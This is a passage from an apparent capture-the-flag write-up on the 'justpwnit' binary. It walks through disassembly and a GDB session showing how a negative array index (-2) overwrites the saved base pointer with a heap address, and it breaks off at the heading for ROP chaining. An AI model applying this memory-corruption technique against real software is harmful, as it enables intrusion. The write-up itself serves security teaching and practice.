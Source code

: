<pre><code>
   0x000000000040120e <+0>:     endbr64 
   0x0000000000401212 <+4>:     push   rbp
   <b>0x0000000000401213 <+5>:     mov    rbp,rsp</b>
   <b>0x0000000000401216 <+8>:     sub    rsp,0x30</b>
   0x000000000040121a <+12>:    mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401221 <+19>:    jmp    0x401233 <justpwnit+37>
   <b>0x0000000000401223 <+21>:    lea    rax,[rbp-0x30</b>
   <b>0x0000000000401227 <+25>:    mov    rdi,rax</b>
   <b>0x000000000040122a <+28>:    call   0x401139 <set_element></b>
   0x000000000040122f <+33>:    add    DWORD PTR [rbp-0x4],0x1
   0x0000000000401233 <+37>:    cmp    DWORD PTR [rbp-0x4],0x3
   0x0000000000401237 <+41>:    jle    0x401223 <justpwnit+21>
   0x0000000000401239 <+43>:    nop
   0x000000000040123a <+44>:    nop
   0x000000000040123b <+45>:    leave  
   0x000000000040123c <+46>:    ret    
</code></pre>

The disassembly of jstpwnit() shows that RSP is subtracted by 0x30, which is the same address that gets loaded into RDI as the argument to set element (bolded lines above). Using this knowledge it can be determined that the first element of the array starts at the top of the stack. This is significant becasue as set_element() gets called, the next stack frame is set up directly above the array. After the call, the saved ip is pushed and the saved base pointer right after for a total distance of -16 bytes from the start of the array. This then translates to -2 as the array index since the array type is char* and a pointer is 8 bytes. 

This can be seen in GDB (Putting all As as the data better show where the heap address is):

<pre><code>
gef➤  r                                                                                                                                                                                                    
Starting program: /home/guac/ctf/asis/jst_pwn_it/justpwnit/justpwnit                                                                                                                                       
<b>Index: -2 </b>                                                                                                                                                                                                 
Data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                   
Breakpoint 1, 0x0000000000401206 in set_element ()
──stack ────
0x00007fffffffdf70│+0x0000: 0x0000000000000000   ← $rsp
0x00007fffffffdf78│+0x0008: 0x00007fffffffdfb0  →  0x00000000000000b4
0x00007fffffffdf80│+0x0010: 0x0000000000000000
0x00007fffffffdf88│+0x0018: 0xfffffffe00403d3f ("?=@"?)
0x00007fffffffdf90│+0x0020: 0x0000000000000000
0x00007fffffffdf98│+0x0028: 0x000000000040123d  →  <main+0> endbr64 
<b>0x00007fffffffdfa0│+0x0030: 0x00007ffff7ff8050  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  ← $rbx, $rbp</b>
0x00007fffffffdfa8│+0x0038: 0x000000000040122f  →  <justpwnit+33> add DWORD PTR [rbp-0x4], 0x1
</code></pre>

With index -2 the saved base pointer is now pointing to the allocated heap address!

## Explotation Step 2: ROP Chaining
